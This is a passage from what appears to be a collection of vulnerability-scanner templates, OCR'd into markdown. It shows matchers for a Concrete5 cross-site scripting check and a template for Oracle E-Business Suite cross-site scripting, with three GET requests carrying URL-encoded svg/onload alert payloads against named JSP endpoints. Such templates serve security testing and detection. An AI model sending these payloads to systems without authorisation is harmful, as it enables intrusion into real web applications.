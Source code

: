 ### Matchers

**Type - word**

- part - body
- words
  1. \</iframe>\<svg/onload=alert("{{randstr}}")>

**Type - word**

- part - header
- words
  1. text/html
  2. CONCRETE5
- condition - and

**Type - status**

- status
  1. 200

---

# Oracle E-Business Suite - Cross-Site Scripting

- severity - medium
- tags - oracle,xss,ebs

## Requests

- Method - GET

### URL

- {{BaseURL}}/OA_HTML/jtfLOVInProcess.jsp%3FAAA%3DAAAAAAAAAA%27%22%3E%3Csvg%2Fonload%3Dalert('{{randstr}}')%3E
- {{BaseURL}}/OA_HTML/oksAutoRenewalHelp.jsp%3Fthanks%3D%27%22%3E%3Csvg%2Fonload%3Dalert('{{randstr}}')%3E
- {{BaseURL}}/OA_HTML/ieuiMeetingErrorDisplay.jsp%3FErrCode%3D%27%22%3E%3Csvg%2Fonload%3Dalert('{{randstr}}')%3E

### Matchers

**Type - word**

- words
  1. \<svg/onload=alert('{{randstr}}')>
- part - body

**Type - status**

- status
  1. 200

**Type - word**
